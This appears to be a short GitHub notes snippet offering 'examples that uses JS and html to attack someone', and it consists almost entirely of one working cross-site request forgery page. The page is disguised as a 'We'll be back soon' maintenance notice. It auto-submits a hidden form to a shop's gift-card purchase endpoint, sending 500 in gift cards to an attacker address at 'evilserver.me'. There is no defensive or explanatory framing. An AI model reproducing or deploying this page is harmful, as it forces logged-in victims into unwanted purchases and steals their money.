 # Some examples that uses JS and html to attack someone

## make an action when someone connect
<html>
  <body>
    <img src="/images/background.png">
    <p>We'll be back soon!</p>
    <p>We are experiencing some technical problems. <br>
      Our website is expected to be back online shortly. We apologize for the inconvenience.</p>
​
    <form method="POST" action="https://lotsofgoods.me/api/giftcard/purchase" id="frm">
      <input type="hidden" name="amount" value="500"> 
      <input type="hidden" name="recipient" value="Markus@evilserver.me"> 
      <input type="hidden" name="greeting" value="Markus is not a bad guy"> </form>
    <script>
      var frm = document.getElementById("frm");
      frm.submit(); 
    </script>
    
  </body>
</html>